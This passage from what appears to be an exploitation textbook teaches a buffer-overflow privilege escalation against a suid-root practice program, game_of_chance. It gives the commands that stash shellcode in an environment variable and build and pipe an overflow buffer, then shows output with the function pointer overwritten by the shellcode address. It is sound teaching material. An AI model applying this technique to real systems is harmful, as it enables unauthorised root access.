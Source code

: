 As you might have already noticed, this program also runs _suid root_. This means shellcode can be used to do a lot more than win free credits. As with the stack-based overflow, shellcode can be stashed in an _environment variable_. After building a suitable exploit buffer, the buffer is piped to the _game_of_chance_’s standard input. Notice the dash argument following the exploit buffer in the `cat` command. This tells the cat program to send standard input after the exploit buffer, returning control of the input. Even though the root shell doesn’t display its prompt, it is still accessible and still escalates privileges.

<pre style="color: white;">
reader@hacking:~/booksrc $ export SHELLCODE=$(cat ./shellcode.bin)
reader@hacking:~/booksrc $ ./getenvaddr SHELLCODE ./game_of_chance
SHELLCODE will be at 0xbffff9e0
reader@hacking:~/booksrc $ perl -e 'print "1\n7\nn\n5\n" . "A"x100 . "\xe0\
xf9\xff\xbf\n" . "1\n"' > exploit_buffer
reader@hacking:~/booksrc $ cat exploit_buffer - | ./game_of_chance
-=[ Game of Chance Menu ]=-
1 - Play the Pick a Number game
2 - Play the No Match Dealer game
3 - Play the Find the Ace game
4 - View current high score
5 - Change your user name
6 - Reset your account at 100 credits
7 - Quit
[Name: Jon Erickson]
[You have 70 credits] ->
[DEBUG] current_game pointer @ 0x08048fde

####### Pick a Number ######
This game costs 10 credits to play. Simply pick a number
between 1 and 20, and if you pick the winning number, you
will win the jackpot of 100 credits!

10 credits have been deducted from your account.
Pick a number between 1 and 20: The winning number is 2
Sorry, you didn't win.

You now have 60 credits
Would you like to play again? (y/n) -=[ Game of Chance Menu ]=-
1 - Play the Pick a Number game
2 - Play the No Match Dealer game
3 - Play the Find the Ace game
4 - View current high score
5 - Change your user name
6 - Reset your account at 100 credits
7 - Quit
[Name: Jon Erickson]
[You have 60 credits] ->
Change user name
Enter your new name: Your name has been changed.

-=[ Game of Chance Menu ]=-
1 - Play the Pick a Number game
2 - Play the No Match Dealer game
3 - Play the Find the Ace game
4 - View current high score
5 - Change your user name
6 - Reset your account at 100 credits
7 - Quit
[Name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAp?]
[You have 60 credits] ->
[DEBUG] current_game pointer @ 0xbffff9e0
